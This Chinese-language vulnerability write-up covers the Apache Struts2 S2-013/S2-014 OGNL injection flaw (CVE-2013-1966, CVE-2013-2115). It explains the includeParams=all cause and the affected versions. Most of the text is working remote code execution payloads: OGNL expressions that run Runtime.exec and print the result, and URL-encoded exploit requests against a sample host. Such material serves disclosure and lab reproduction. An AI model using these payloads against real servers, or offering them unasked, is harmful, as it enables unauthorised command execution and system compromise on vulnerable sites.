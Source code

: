 （ CVE-2013-1966）（CVE-2013-2115）S2-014
=========================================

一、漏洞简介
------------

Struts2 标签中 `和` 都包含一个 includeParams 属性，其值可设置为
none，get 或 all，参考官方其对应意义如下：

1.  none - 链接不包含请求的任意参数值（默认）

2.  get - 链接只包含 GET 请求中的参数和其值

3.  all - 链接包含 GET 和 POST 所有参数和其值

\`\`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

二、漏洞影响
------------

2.0.0 - 2.3.14.1

三、复现过程
------------

### 任意命令执行POC：

    ${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

    // 或

    ${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}

如：`http://www.0-sec.org:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

0ZGLLQ\`7TVP\_D\_0B3E8XDL.png

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了
\${ognl\_exp} OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。

    http://www.0-sec.org:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
